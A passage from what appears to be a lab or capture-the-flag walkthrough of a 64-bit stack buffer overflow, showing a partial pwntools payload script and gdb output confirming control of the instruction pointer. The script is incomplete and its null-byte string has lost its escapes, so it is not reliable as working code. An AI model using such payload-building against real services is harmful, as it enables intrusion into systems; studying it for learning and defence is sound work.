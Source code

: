 Hmm damn, seems we went backwards as we're not crashing in the right place anymore. Why?

Well through trial and error I found it to be due to the data stored on our stack after our injected EIP value. This is a 64 bit program but the address length we supplied was only 6 bytes. We need to pad the value with 2 null bytes before continuing our buffer with our arbitrary data.

Let's update our exploit and try again:

```
from pwn import *  
buf = "A" * 72  
after = "A" * 80  
nulls = "x00x00"
# open the tcp connection and receive the banner  
...  
# build payload  
attackstring = buf + data + nulls + after  
# display some debug information for ourselves  
...  
```

And the debug output confirms we're back to executing our code but this time with a tonne of space on the stack after our EIP value:

```
Program received signal SIGSEGV, Segmentation fault.  
0x00007fff4a9c8ea0 in ?? ()  
(gdb) x/4i $pc  
=> 0x7fff4a9c8ea0:     rex.B  
 0x7fff4a9c8ea1:     rex.B  
 0x7fff4a9c8ea2:     rex.B  
 0x7fff4a9c8ea3:     rex.B  
(gdb) x/160bx $pc  
0x7fff4a9c8ea0:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ea8:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8eb0:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8eb8:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ec0:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ec8:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ed0:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ed8:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ee0:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ee8:     0xa0     0x8e     0x9c     0x4a     0xff     0x7f     0x00     0x00  
0x7fff4a9c8ef0:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8ef8:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f00:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f08:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f10:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f18:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f20:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f28:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f30:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
0x7fff4a9c8f38:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
```
